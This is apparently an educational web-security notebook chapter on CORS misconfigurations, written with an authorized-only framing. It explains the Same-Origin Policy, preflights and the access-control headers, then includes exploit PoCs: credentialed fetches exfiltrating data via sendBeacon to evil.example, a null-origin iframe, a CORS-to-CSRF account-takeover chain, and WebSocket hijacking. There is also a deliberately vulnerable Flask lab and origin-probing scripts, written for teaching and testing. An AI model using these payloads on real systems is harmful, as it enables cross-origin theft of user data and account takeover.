







This is Chapter 5 of the Client-Side notebook — Notebook 24, and the notebook's closing
chapter. Chapter 4 ended on a cliffhanger: CSRF is a *blind* attack because the Same-Origin
Policy stops the attacker's page from reading the response of a cross-origin request. This
chapter is about the mechanism that decides when cross-origin *reads* are allowed — Cross-Origin
Resource Sharing, CORS — and what happens when a server configures it wrong. A CORS
misconfiguration is precisely the thing that removes CSRF's blindness: it lets an attacker's
page read a victim's authenticated cross-origin responses, converting "I can make the request
but can't see the answer" into "I can read your account data, tokens, and secrets from my own
site."

CORS is one of the most misunderstood parts of web security because its *purpose* is the
opposite of what people assume. CORS does not *restrict* cross-origin access — the Same-Origin
Policy already does that, by default. CORS is a controlled way to *relax* the SOP: a server uses
CORS response headers to opt specific other origins into reading its responses. Every CORS
vulnerability is therefore a case of a server relaxing the SOP *too much* — telling the browser
"yes, let that origin read my authenticated responses" when it shouldn't have.

This chapter builds the model from the SOP up, walks the full CORS handshake header by header,
then catalogues the misconfigurations that turn CORS into an exploit — with real `fetch` PoCs
and a reproducible lab. As always, testing is **authorized-only**: a working CORS exploit reads
a real user's data, so you prove it against *your own* test account, exfiltrating *your own*
data to a listener you control, and report the mechanism rather than harvesting anyone else.

## Part 1: The Same-Origin Policy — What CORS Is Relaxing

To understand CORS you must first be precise about the Same-Origin Policy. An **origin** is the
triple (scheme, host, port): `https://app.example:443`. Two URLs are same-origin only if all
three match exactly. `https://app.example` and `https://api.app.example` are *different*
origins (different host); so are `http://` vs `https://` (scheme) and `:443` vs `:8443` (port).

The SOP is a browser rule with one central effect for our purposes: **a document from origin A
may send requests to origin B, but by default cannot read the responses.** It can fire the
request (that's what makes CSRF possible), but the JavaScript on origin A cannot see origin B's
response body, status, or most headers. This is what keeps a random website from reading your
webmail: `evil.example` can `fetch('https://mail.example/inbox')` with your cookies attached,
but SOP stops it from reading the returned inbox HTML.



That decision box in the middle — "do the CORS headers permit this origin to read?" — is the
entire game. CORS is the protocol by which origin B tells the browser which other origins are
allowed to read its responses. Misconfigure it, and box D answers "Yes" for `evil.example`.

**Key nuance for the whole chapter:** SOP is not weakened by CORS for *requests* — those always
went through. CORS only governs the *read*. So a CORS misconfig doesn't enable new requests; it
enables *reading the responses* of requests that were always possible. That's why CORS bugs pair
so naturally with the cookie-attached, ambient-authority requests from Chapter 4.

## Part 2: The CORS Handshake — Simple vs Preflighted Requests

When a page makes a cross-origin request, the browser adds an **`Origin`** request header naming
the calling origin, and then, based on the response's `Access-Control-*` headers, decides
whether to expose the response to the calling JavaScript. There are two flavours of cross-origin
request, and knowing which is which is essential.

**Simple requests** are sent directly (no preflight) if they meet all of: method is `GET`,
`HEAD`, or `POST`; and headers are limited to a CORS-safelisted set (`Accept`,
`Accept-Language`, `Content-Language`, and `Content-Type` restricted to
`application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`). These are exactly
the requests an HTML form can make — which is why CSRF (Chapter 4) lives in the same space.

**Preflighted requests** are anything else: a `PUT`/`DELETE`/`PATCH`, a custom header
(`Authorization`, `X-CSRF-Token`, `Content-Type: application/json`), etc. Before sending the
real request, the browser sends an `OPTIONS` *preflight* asking permission:



The preflight is a permission check: the browser asks "may origin X use method Y with headers
Z?" and only sends the real request — and only exposes the response — if the server's `OPTIONS`
answer allows it. This is why requiring a custom header is a CSRF defense (Chapter 4): it forces
a preflight the cross-site attacker's server won't pass. It is also why the *interesting* CORS
exploits often involve *simple* requests (`GET` with cookies), which skip preflight and hinge
entirely on the `Access-Control-Allow-Origin` on the actual response.

## Part 3: The Access-Control Response Headers

The server controls CORS entirely through response headers. Every CORS bug is a wrong value in
one of these:

| Header | Purpose | Dangerous values |
|---|---|---|
| `Access-Control-Allow-Origin` (ACAO) | Which origin may read the response | `*`, or **reflecting** the request's `Origin`, or `null` |
| `Access-Control-Allow-Credentials` (ACAC) | May the response be read when the request carried cookies/creds? | `true` **combined with** a reflected/loose ACAO |
| `Access-Control-Allow-Methods` | Methods allowed (preflight) | overly broad |
| `Access-Control-Allow-Headers` | Request headers allowed (preflight) | `*` / broad |
| `Access-Control-Expose-Headers` | Which response headers JS can read | exposing sensitive headers |
| `Access-Control-Max-Age` | How long to cache the preflight | long values ease attacks |

The two that create nearly all exploitable bugs are **ACAO** and **ACAC**, and the danger is in
their *combination*:

- `Access-Control-Allow-Origin: *` alone allows *any* origin to read the response — but the
  browser **forbids `*` together with credentials**. A wildcard ACAO means cookies are *not*
  sent/honoured, so it only exposes *unauthenticated* data. Bad if that data is sensitive, but
  not a credentialed-read bug.
- `Access-Control-Allow-Origin: <reflected origin>` **plus** `Access-Control-Allow-Credentials:
  true` is the classic critical misconfig. The server echoes whatever `Origin` the attacker
  sent and says "credentials allowed" — so the attacker's page can make a *credentialed* request
  (victim's cookies attached) and *read the authenticated response*. This is full cross-origin
  authenticated data theft.

The spec forbids `ACAO: *` with `ACAC: true` precisely because that combination would be
catastrophic — so servers that want per-origin credentialed access must *echo the specific
Origin*. Attackers exploit exactly that echoing when it's done without a proper allow-list.

## Part 4: The Critical Misconfiguration — Reflected Origin + Credentials

The headline CORS exploit: a server that dynamically reflects the `Origin` header into ACAO and
sets `ACAC: true`. Many servers do this to "support all our subdomains and partners" without a
real allow-list. Concretely, the server logic is often:

```python
# VULNERABLE: echo whatever Origin the client sent, and allow credentials.
resp.headers["Access-Control-Allow-Origin"] = request.headers.get("Origin")
resp.headers["Access-Control-Allow-Credentials"] = "true"
```

To any origin that asks, the server says "yes, you specifically may read my authenticated
responses." An attacker hosts this on `evil.example`:

```html
<script>
fetch("https://api.target.example/account/apikey", {
  credentials: "include"                 // attach the victim's target.example cookies
})
.then(r => r.text())
.then(secret => {
  // We can READ the authenticated response because ACAO reflected our origin + ACAC:true
  navigator.sendBeacon("https://evil.example/c", secret);
});
</script>
```

When a logged-in victim visits `evil.example`, their browser fetches the target API *with their
cookies*, the server reflects `Origin: https://evil.example` into ACAO with `ACAC: true`, the
browser exposes the response, and the attacker's script reads the victim's API key / profile /
session data and exfiltrates it. This is the read that SOP normally forbids — handed over by the
misconfiguration.



**This is why CORS bugs are high severity:** they defeat SOP's read protection for *authenticated*
responses. Where CSRF (Chapter 4) could only *write* blindly, a reflected-Origin+credentials
CORS bug lets you *read* — session tokens, CSRF tokens, PII, API keys — from any origin the
victim can be lured to. It frequently escalates directly to account takeover (steal the CSRF
token or API key, then act).

## Part 5: The Misconfiguration Catalogue — Every Way ACAO Goes Wrong

Reflected-Origin+credentials is the flagship, but there's a whole family of ACAO validation
mistakes. Each is a distinct, testable bug:

| Misconfig | Server behaviour | Exploit condition |
|---|---|---|
| **Origin reflection** | Echoes any `Origin` into ACAO + `ACAC:true` | Any attacker origin reads credentialed responses |
| **`null` origin allowed** | `ACAO: null` + `ACAC:true` | Attacker forces `Origin: null` (see below) |
| **Suffix match** | Allows `*.target.example` via `endsWith("target.example")` | `eviltarget.example` or `target.example.evil.com` matches |
| **Prefix/substring match** | `startsWith`/`contains("target.example")` | `target.example.evil.com` passes |
| **Unescaped-dot regex** | Regex `target.example` (dot not escaped) | `targetXexample`, `targetsexample` match |
| **Trusted subdomain + subdomain XSS** | Allows all `*.target.example` | XSS on any subdomain → CORS read of main API |
| **`http` origin trusted** | Allows `http://target.example` | MITM on plaintext origin reads via CORS |
| **Wildcard with creds (broken servers)** | `ACAO:*` + `ACAC:true` (non-compliant server/proxy) | Some clients honour it → credentialed read |

**The `null` origin trick.** `Origin: null` is sent by the browser in several situations:
requests from a `data:` URL, a sandboxed iframe, a `file://` document, or certain redirects.
Servers that allow-list `null` (thinking it means "internal/same-doc") can be attacked by making
the request come from a null-origin context:

```html
<!-- Sandboxed iframe: its requests carry Origin: null -->
<iframe sandbox="allow-scripts allow-forms" srcdoc="
  <script>
    fetch('https://api.target.example/account/apikey',{credentials:'include'})
      .then(r=>r.text()).then(d=>parent.postMessage(d,'*'));
  &lt;/script&gt;">
</iframe>
```

Because the sandboxed iframe's origin is `null`, the request's `Origin: null` matches the
server's `ACAO: null` allow-list, and with `ACAC: true` the response is readable.

**Sloppy allow-list matching** is the other big family. Servers try to allow their own
subdomains but implement the check with `startsWith`, `endsWith`, `contains`, or an
un-anchored/unescaped regex. Test each:

```text
Origin: https://target.example.evil.com     → passes startsWith / contains checks
Origin: https://eviltarget.example          → passes endsWith("target.example")
Origin: https://target.example.attacker.com  → passes contains("target.example")
Origin: https://targetXexample.com           → passes regex /target.example/ (dot unescaped)
```

If any of these gets reflected back into ACAO with `ACAC: true`, you register the matching
domain (or already control it) and you have a working exploit.

## Part 6: Finding CORS Bugs — A Rigorous Methodology

Detecting CORS misconfigurations is fast and mechanical: send requests with a chosen `Origin`
header and inspect the response's `Access-Control-Allow-Origin` and
`Access-Control-Allow-Credentials`. The whole methodology is "vary the Origin, watch what's
reflected."

The core probe with `curl` — teach it from the header up:

```bash
# Baseline: does the endpoint reflect an arbitrary Origin with credentials?
curl -s -I https://api.target.example/account/me \
  -H "Origin: https://evil.example" | grep -i "access-control"
# Look for:
#   Access-Control-Allow-Origin: https://evil.example   <-- reflected!
#   Access-Control-Allow-Credentials: true              <-- + credentials = critical
```

`-I` sends a `HEAD` (use `-X GET` if the endpoint needs GET), `-H "Origin: ..."` injects the
attacker origin, and the `grep` isolates the CORS headers. Then iterate the malformed-Origin
matrix from Part 5:

```bash
for o in \
  "https://evil.example" \
  "https://target.example.evil.example" \
  "https://eviltarget.example" \
  "https://target.example.attacker.com" \
  "null" ; do
  echo "== Origin: $o =="
  curl -s -I https://api.target.example/account/me -H "Origin: $o" | grep -i "access-control-allow"
done
```

Any line where `Access-Control-Allow-Origin` echoes your test origin **and**
`Access-Control-Allow-Credentials: true` is present is an exploitable finding. If ACAO reflects
but there's no ACAC, it's only exploitable for *unauthenticated* data (still a bug if that data
is sensitive).

**Tooling.** `Corsy`, `CORScanner`, and Burp Suite's active scanner automate the Origin matrix;
Burp's "CORS" issues and the standalone tools save time, but always confirm by hand with `curl`
and, crucially, verify a *credentialed read actually works* in a real browser — some servers
reflect the header but a proxy or a `Vary: Origin` cache nuance changes runtime behaviour.



**Bug-bounty relevance:** CORS misconfigs are among the fastest high-value finds — a single
`curl` with a spoofed `Origin` reveals them. The value is in *what the readable endpoint
returns*: an endpoint exposing an API key, session/CSRF token, or PII escalates to
High/Critical; one exposing only public data is Low/Informational. Always chain the finding to a
concrete readable secret in the PoC.

## Part 7: Hands-On Lab — Reflected Origin to Data Theft

A reproducible lab: a vulnerable API that reflects Origin with credentials, an attacker page,
and an exfil listener. All local, all yours.

### 7.1 The vulnerable API

```python
# cors_api.py — INTENTIONALLY VULNERABLE. Lab only.
from flask import Flask, request, jsonify, make_response
app = Flask(__name__)

@app.route("/login")
def login():
    r = make_response("logged in")
    r.set_cookie("session", "S3SS-abc", samesite="None", secure=False)  # cross-site cookie for demo
    return r

@app.route("/account/apikey")
def apikey():
    if request.cookies.get("session") != "S3SS-abc":
        return "unauth", 401
    resp = jsonify({"apikey": "sk_live_VICTIM_SECRET_9f4a", "email": "victim@lab.local"})
    # THE BUG: reflect any Origin + allow credentials
    origin = request.headers.get("Origin")
    if origin:
        resp.headers["Access-Control-Allow-Origin"] = origin
        resp.headers["Access-Control-Allow-Credentials"] = "true"
    return resp

if __name__ == "__main__":
    app.run(port=5000)
```

Start it and log in once (`http://127.0.0.1:5000/login`) so the browser holds the session cookie.

### 7.2 The attacker page (served from a different origin)

```html
<!-- attacker.html — serve on a different origin, e.g. python3 -m http.server 9000 -->
<h1>Totally normal site</h1>
<script>
fetch("http://127.0.0.1:5000/account/apikey", { credentials: "include" })
  .then(r => r.json())
  .then(data => {
    document.body.innerHTML += "<pre>STOLEN: " + JSON.stringify(data) + "</pre>";
    new Image().src = "http://127.0.0.1:8000/c?d=" + encodeURIComponent(JSON.stringify(data));
  })
  .catch(e => document.body.innerHTML += "<p>blocked: " + e + "</p>");
</script>
```

### 7.3 Run it

Start the exfil listener from Chapter 3 on `:8000`, serve `attacker.html` on `:9000`, and visit
`http://127.0.0.1:9000/attacker.html` in the logged-in browser. Expected:

```text
# In the attacker page:
STOLEN: {"apikey":"sk_live_VICTIM_SECRET_9f4a","email":"victim@lab.local"}

# In the exfil listener:
[..] 127.0.0.1 -> {"apikey":"sk_live_VICTIM_SECRET_9f4a","email":"victim@lab.local"}
```

You just read a victim's authenticated API response from a foreign origin and exfiltrated it —
the SOP-forbidden read, enabled by the reflected-Origin+credentials misconfig. In a real
engagement this is done against your *own* test account; the screenshot of your own secret
arriving at your own listener is the proof.

### 7.4 Confirm the browser blocks it once fixed

Replace the vulnerable block with a strict allow-list and re-run:

```python
ALLOWED = {"http://127.0.0.1:5000"}          # only same-origin/trusted, explicit
origin = request.headers.get("Origin")
if origin in ALLOWED:
    resp.headers["Access-Control-Allow-Origin"] = origin
    resp.headers["Access-Control-Allow-Credentials"] = "true"
    resp.headers["Vary"] = "Origin"          # correct caching
```

Now the attacker origin isn't in `ALLOWED`, no ACAO is returned for it, and the browser blocks
the read — the `fetch` rejects with a CORS error and `catch` prints "blocked".

### 7.5 PortSwigger CORS drills

Practice the variants against realistic apps:

```text
- "CORS vulnerability with basic origin reflection"          → Part 4
- "CORS vulnerability with trusted null origin"              → Part 5 (null + sandbox iframe)
- "CORS vulnerability with trusted insecure protocols"       → Part 5 (http subdomain → MITM)
- "CORS vulnerability with internal network pivot attack"    → SSRF-adjacent internal read
```

## Part 8: Chaining CORS With Other Bugs

CORS misconfigs are force multipliers. The highest-impact reports chain them:

- **CORS + reflected XSS on a subdomain.** If the API trusts `*.target.example` and any
  subdomain has XSS, the XSS runs in a trusted origin and can read the main API cross-origin —
  turning a "minor subdomain XSS" into full account data theft.
- **CORS → CSRF token theft → CSRF.** Read the victim's anti-CSRF token via the CORS bug, then
  submit a forged state-changing request with it. CORS supplies the read that plain CSRF
  (Chapter 4) lacked, enabling account takeover even when the app has CSRF tokens.
- **CORS + `http` trusted origin → network MITM.** If ACAO trusts `http://target.example`, an
  attacker on the victim's network (rogue Wi-Fi) MITMs the plaintext origin, injects a reading
  script, and exfiltrates via the CORS grant.
- **CORS on internal/SSRF-reachable services.** Internal APIs with `ACAO: *` (thinking "we're
  internal, it's fine") become readable when combined with an SSRF (Chapter 8 of the Server-Side
  notebook) or a hooked internal browser (Chapter 3's BeEF pivot).



Worked chain — CORS read to full account takeover, end to end. This is the single
most report-worthy CORS escalation, and it stitches together Chapter 4 (CSRF) with this
chapter's read primitive:

```javascript
// Hosted on evil.example. Victim is logged into target.example.
// Step 1: use the reflected-Origin+creds CORS bug to READ the anti-CSRF token
//         that Chapter 4 said a cross-site attacker normally cannot see.
fetch("https://api.target.example/account/settings", { credentials: "include" })
  .then(r => r.text())
  .then(html => {
    const csrf = new DOMParser().parseFromString(html, "text/html")
                   .querySelector('[name=csrf_token]').value;      // now we HAVE the token
    // Step 2: submit the forged, authenticated, CSRF-valid state change as the victim.
    return fetch("https://api.target.example/account/change-email", {
      method: "POST",
      credentials: "include",
      headers: { "Content-Type": "application/x-www-form-urlencoded" },
      body: "csrf_token=" + encodeURIComponent(csrf) + "&email=attacker@evil.example"
    });
  })
  .then(() => navigator.sendBeacon("https://evil.example/c", "ATO complete"));
```

Plain CSRF (Chapter 4) failed here because the app had a proper anti-CSRF token the attacker
could not read. The CORS misconfiguration supplies exactly the missing capability — the
cross-origin *read* of the token — turning a token-protected app into a one-visit account
takeover. This is why a reflected-Origin CORS bug on an endpoint that renders a CSRF token is
Critical even when "the app has CSRF protection."

**CTF relevance:** web CTF challenges sometimes gate a flag behind an admin-only API with a CORS
misconfig; the intended solve hosts a page on the challenge's exploit-server that a bot admin
visits, reading the admin API response cross-origin and posting it to your collector — the exact
Part 7 flow.

## Part 9: Beyond `fetch` — Other Cross-Origin Read Vectors and CORP/COEP

CORS on `fetch`/XHR is the classic exploit surface, but "reading cross-origin data" spans more
of the platform, and modern browsers ship additional headers that govern it. Understanding the
wider picture keeps you from missing findings and from over-trusting a single control.

**Images, canvas, and tainting.** A page can *display* a cross-origin image (``) but
cannot read its pixels — drawing a cross-origin image to a `<canvas>` "taints" the canvas and
`getImageData`/`toDataURL` throw a security error. The `crossorigin` attribute
(`` or `="use-credentials"`) opts the image load into CORS: if the
image server returns a permitting `Access-Control-Allow-Origin`, the canvas is *not* tainted and
pixels become readable. So a CORS-permissive image host plus `crossorigin="use-credentials"` can
leak authenticated image content (e.g. a per-user chart, a QR code, a document render). Test
image/media endpoints for ACAO just as you would JSON APIs.

**Fonts, media, and scripts.** Web fonts (`@font-face`) enforce CORS by default (a font server
must send ACAO), which is why font CDNs set permissive CORS. `<script src>` cross-origin loads
and *executes* but the source text is not readable unless CORS-permitted (relevant to error-
message leakage via `window.onerror` with `crossorigin`). `<audio>`/`<video>` mirror the image
tainting rules. Each of these is a niche but real cross-origin read channel when the server is
permissive.

**The modern isolation headers — CORP, COEP, COOP.** To defend against speculative-execution
side channels (Spectre) and cross-origin leaks, browsers added three headers you should
recognise:

| Header | Full name | What it controls |
|---|---|---|
| `Cross-Origin-Resource-Policy` (CORP) | Resource Policy | Whether a resource may be *embedded/loaded* by other origins (`same-origin`, `same-site`, `cross-origin`) |
| `Cross-Origin-Embedder-Policy` (COEP) | Embedder Policy | Forces a document to only load resources that explicitly opt in (`require-corp`) |
| `Cross-Origin-Opener-Policy` (COOP) | Opener Policy | Severs the `window.opener` link between cross-origin pages (`same-origin`) |

`CORP: same-origin` on a sensitive resource stops other sites from loading it at all — a stricter
sibling to CORS that closes the "no-cors" embedding leaks (like the image-tainting side channels
and `Content-Length`/timing oracles). COOP+COEP together enable *cross-origin isolation*
(required to re-enable `SharedArrayBuffer` and high-resolution timers). For an exploiter, the
presence of `CORP: same-origin`/`same-site` on an endpoint is a sign that no-cors read tricks
won't work; for a defender, adding CORP to sensitive JSON/image endpoints is cheap
defence-in-depth alongside a correct CORS allow-list.

**`postMessage` and WebSockets — cross-origin channels CORS does not govern.** `postMessage`
(covered in Chapter 2's DOM-XSS work) is an *intentional* cross-origin channel; its security
depends on the receiver validating `event.origin`, not on CORS. WebSockets (`ws://`/`wss://`)
are **not** subject to the Same-Origin Policy the way XHR is — the browser sends an `Origin`
header on the handshake but does *not* enforce CORS; it is entirely the server's job to validate
`Origin` on the WebSocket handshake. A server that omits that check is vulnerable to
**Cross-Site WebSocket Hijacking (CSWSH)**: an attacker page opens a `wss://` connection to the
target, the victim's cookies ride the handshake (ambient authority again), and — because there's
no CORS gate — the attacker's page can both send and *read* messages over the socket.

```javascript
// Cross-Site WebSocket Hijacking PoC — attacker page, victim's cookies attach to the handshake.
const ws = new WebSocket("wss://target.example/chat");
ws.onopen  = () => ws.send('{"cmd":"history"}');
ws.onmessage = e => new Image().src = "https://evil.example/c?d=" + encodeURIComponent(e.data);
```

CSWSH is the WebSocket analogue of the reflected-Origin CORS bug: same ambient-cookie
mechanics, but the missing control is server-side `Origin` validation on the handshake rather
than an ACAO header. Always test WebSocket endpoints by opening them from a foreign origin and
checking whether authenticated messages flow.



## Part 10: Real-World Cases, CVEs & Impact Patterns

CORS misconfigurations are consistently found across mature programs because the "reflect the
Origin to support our many subdomains/partners" shortcut is so common. The recurring patterns:

- **Reflected-Origin on an API returning session/API secrets.** The archetype: a single-page-app
  backend reflects `Origin` with `ACAC: true` on `/api/user` or `/api/token`, and any attacker
  page reads the logged-in victim's profile and tokens. This has been reported and paid across
  numerous bug-bounty programs, frequently at High/Critical when the endpoint returns an API key
  or the CSRF token (enabling ATO via the Chapter-4 chain).
- **Wildcard-subdomain trust + subdomain takeover.** Apps that trust `*.target.example` for CORS
  become critically exposed if *any* subdomain is vulnerable to subdomain takeover (a dangling
  DNS record pointing at an unclaimed cloud bucket/service). The attacker claims the subdomain,
  hosts a reading script in a "trusted" origin, and drains the main API — CORS turning a
  hygiene issue into data theft.
- **`http`-origin trust enabling network attackers.** APIs that keep `http://target.example` in
  the allow-list (legacy) let a same-network attacker MITM the plaintext origin and read the
  HTTPS API via the CORS grant — the "trusted insecure protocols" class.
- **Internal/admin APIs with `ACAO: *`.** Teams set `*` on internal services assuming network
  isolation is enough; when reachable via SSRF (Server-Side notebook, Chapter 8), a hooked
  internal browser (Chapter 3's BeEF pivot), or a compromised internal page, the wildcard turns
  into a read primitive.
- **Cross-Site WebSocket Hijacking.** Chat, notification, and live-dashboard features built on
  WebSockets that skip `Origin` validation on the handshake have leaked message history and
  allowed action injection — the Part 9 CSWSH pattern, a repeat finding on real applications.

Historically, CORS was not its own OWASP Top 10 category but falls under **A05:2021 Security
Misconfiguration** (and the read-impact under **A01 Broken Access Control**). The lesson from the
case pattern is consistent: **severity is set by what the readable endpoint returns.** A
reflected Origin on a public endpoint is informational; on an endpoint exposing tokens, PII, or
the CSRF token, it is a direct path to account takeover.

**Escalation ladder to keep in mind:**



## Part 11: Automated Tooling, Preflight Caching & Cache-Poisoning Edge Cases

Manual `curl` probing (Part 6) confirms individual endpoints, but a real API has dozens of
routes and you want breadth plus the subtle cache/preflight bugs that hand-testing misses. This
part teaches the automation and the two edge cases — long-lived preflight caching and
`Vary`-less response caching — that turn a "borderline" config into a real leak.

### 11.1 Corsy — from scratch

**Corsy** is a small Python scanner dedicated to CORS misconfigurations. It sends a batch of
malformed `Origin` values (the Part 5 matrix — reflection, `null`, prefix/suffix, unescaped
regex, `http` downgrade) to each URL and reports which ones the server reflects. Install and run:

```bash
git clone https://github.com/s0md3v/Corsy && cd Corsy
pip install requests                          # its one dependency
python3 corsy.py -u https://api.target.example/account/me \
  -headers "Cookie: session=<your-test-session>"
```

Annotated sample output against a reflecting server:

```text
[ Corsy - v1.0 ]
[!] Vulnerable: https://api.target.example/account/me
      Type:  origin reflection
      ACAO:  https://evil.example        <- reflected our injected origin
      ACAC:  true                        <- credentials allowed → critical
[!] Vulnerable: https://api.target.example/account/me
      Type:  null origin allowed
      ACAO:  null
```

Feed it a URL list (`-i urls.txt`) harvested from a crawl/`gau`/Burp sitemap to sweep an entire
API. Corsy classifies the *type* of misconfig, which maps straight onto Part 5's catalogue;
still hand-confirm the highest-value hits in a browser with a real credentialed `fetch`.

